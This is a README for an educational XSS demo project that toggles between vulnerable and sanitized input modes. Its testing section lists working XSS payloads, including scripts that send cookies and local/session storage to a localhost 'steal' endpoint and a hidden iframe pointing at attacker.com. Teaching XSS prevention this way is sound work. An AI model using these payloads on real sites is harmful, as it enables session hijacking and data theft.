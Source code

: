 # JavaScript XSS Playground

This project demonstrates what XSS (Cross-site Scripting) is and how to prevent it using input sanitization. It is designed for educational purposes to help developers understand the risks of XSS attacks and the importance of secure coding practices.
<br>
<br>

**- testing the 1st tested payload**

![testing the 1st tested payload](https://imgur.com/TqDvpzu.png)

**- entering payloads in SECURED mode**

![entering payloads in SECURED mode](https://imgur.com/QNSfU2r.png)

**- after running server.js; enter the tested payload 4 and 5 into the text field**

![after running server.js; enter the tested payload 4 and 5 into the text field](https://imgur.com/UMWvQz3.png)

**- after entering see the stolen data from server.js console**

![after entering see the stolen data from server.js console](https://imgur.com/E4OOnXG.png)

<br>

## Features

- **Vulnerable Mode**: Simulates a working XSS vulnerability to demonstrate how attacks occur.
- **Secured Mode**: Shows how input sanitization can effectively prevent XSS attacks.
- **Toggle**: Easily switch between "Vulnerable" and "Secured" modes to compare behaviors.

## Concepts Learned

- Understanding XSS attacks and their impact.
- Implementing input validation and sanitization techniques.
- Recognizing the importance of secure coding practices.

## How to Use

1. Open `index.html` in a browser.
2. Enter some text in the input field and submit.
3. Toggle between "Vulnerable" and "Secured" modes to observe the difference in behavior.

## Testing the Project

1. Open `index.html` in a browser.
2. Use the following payloads in the input field to test XSS vulnerabilities:
   - `<img src="x" onerror="alert('XSS Attack!')">`
   - `<script>document.body.innerHTML = '<h1>Hacked by Attacker</h1>';</script>`
   - `<a href="https://www.youtube.com/" target="_blank">Click here</a>`
   - `<script>const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);</script>`
   - `<script>const data = { localStorage: JSON.stringify(localStorage), sessionStorage: JSON.stringify(sessionStorage) }; fetch('http://localhost:3000/steal', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify(data) });</script>`
   - `<iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>`
   - `<div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>`

3. Toggle between "Vulnerable" and "Secured" modes to observe how the application handles these payloads.

## Educational Purpose

This project is designed to educate developers about the risks of XSS attacks and the importance of input validation and sanitization. It provides hands-on experience with real-world attack scenarios and demonstrates effective prevention techniques.

## Disclaimer

This project is for educational purposes only. Do not use the vulnerable mode in a production environment. Always validate and sanitize user input to prevent malicious scripts from being executed.

